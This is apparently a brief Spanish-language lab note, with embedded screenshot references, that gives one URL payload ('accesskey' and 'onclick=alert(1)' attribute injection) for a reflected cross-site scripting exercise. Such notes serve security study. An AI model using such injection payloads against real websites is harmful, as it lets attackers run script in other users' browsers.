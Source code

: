 ![[Pasted image 20220908193032.png]]

usar este payload en el url: /?%27accesskey=%27x%27onclick=%27alert(1)

![[Pasted image 20220908193250.png]]

![[Pasted image 20220908193318.png]]

